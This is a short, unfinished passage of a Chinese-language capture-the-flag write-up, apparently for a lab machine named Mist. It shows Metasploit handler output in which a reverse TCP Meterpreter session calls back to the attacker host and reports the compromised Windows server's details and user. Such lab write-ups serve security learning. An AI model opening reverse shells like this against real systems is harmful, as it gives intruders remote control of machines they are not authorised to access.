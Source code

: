 
等待片刻之后，收到回连的shell

```shell
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.8:8888 
[*] Sending stage (201798 bytes) to 10.10.11.17
[*] Meterpreter session 2 opened (10.10.16.8:8888 -> 10.10.11.17:59059) at 2024-04-08 13:09:17 +0800

meterpreter > sysinfo 
getComputer        : MS01
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : MIST
Logged On Users : 7
Meterpreter     : x64/windows
meterpreter > getuid 
Server username: MIST\Brandon.Keywarp
```

## User - MIST\Brandon.Keywarp

TODO 未完成
